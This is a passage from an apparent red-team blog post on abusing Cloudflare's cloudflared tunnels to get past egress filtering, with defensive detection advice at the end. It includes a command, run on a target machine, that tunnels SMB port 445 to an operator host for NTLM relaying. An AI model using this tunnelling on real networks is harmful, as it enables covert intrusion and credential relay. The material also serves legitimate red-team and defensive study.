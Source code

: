 Here is the idea graphically with the 'double tunnel' running on the client device and the cfredirect.redteaming.org hostname finally redirecting the data to port 7844. 

<img src="/assets/img/BSides16.jpg" width="200"/>

Here is the hostname set up on Cloudflare's dashboard:

<img src="/assets/img/BSides17.jpg" width="200"/>

Here is the idea in commands to redirect the 'cloudflared tunnel' data which wants to egress to 7844 to instead hit our 'cloudflared access' listener which egresses on port 443. It is important to specify the protocol this time to be TCP (protocol http2) as it defaults to UDP and the Cloudflared access command can only operate over TCP:

<img src="/assets/img/BSides18.jpg" width="200"/>

On testing this I found I could now form tunnels on more restrictive devices when all that was allowed outbound was port 443. Here is the double tunnel running on Windows in the first 2 images and netexec running on Kali including it accessing the client network:

<img src="/assets/img/BSides19.jpg" width="200"/>

One further thing to mention, when you are using this double tunnel setup I found at times that since it is all operating over TCP, that name resolution when using hostnames which occurs by default over UDP, forces you to use to use the --dns-tcp and --dns-server features of netexec to operate correctly although IPs will work fine. Other times it works fine so I am not sure if it is a bit flakey depending on the environment but when not using the 'double tunnel' technique including ssh this shouldn't be an issue.

If you also wanted to perform some ntlm relaying like I have already shown over ssh, you can also achieve this with the the WARP client setup like so on your target machine: 

{% highlight powershell %}
cloudflared access tcp --hostname smb.redteaming.org --url 0.0.0.0:445
{% endhighlight %}

Then create the smb.redteaming.org hostname to point to port 445 on your localhost on your VM like we achieved with ssh.

Just to recap, here are the various techniques covered at this point and what is required to be in place to carry them out. There is no superior technique, but each offers another string to our bow during offensive engagements.

<img src="/assets/img/BSides20.jpg" width="200"/>

Given we always focus on the offensive side of things here are the recommended checks to put in place to monitor for these attacks from a defensive point of view:

- Process Telemetry: Command line switches such as the words 'tunnel' or 'access' or 'token' could be used to alert on the fact that the cloudflared binary may be in operation on your network. The 'cloudflared' name could also be used but this could be easily changed by an attacker to be Chrome or MSEdge for example.
- DNS Logging: During the operation of the cloudflared binary it makes queries to hostnames ending in "argotunnel.com" including update checks which could be alerted upon by the Blue team. Just for reference the argotunnel.com domain is the old name for the cloudflared binary.
- Firewall Logging: As we have discovered, circumventing the port 7844 limitation outbound is easily achievable with the 'double tunnel' technique but it would still be advied to block port 7844 outbound for both UDP and TCP if cloudflared isn't meant to be run in your environment. The SSH technique doesn't require port 7844 but that may not always be the chosen path a threat actor may use.
- File Monitoring: Monitoring file downloads from the Github [releases page](https://github.com/cloudflare/cloudflared/releases) for cloudflared and also matching the provided hashes against what you allow in your network will help you determine if the cloudflared binary has been download to your client device. 
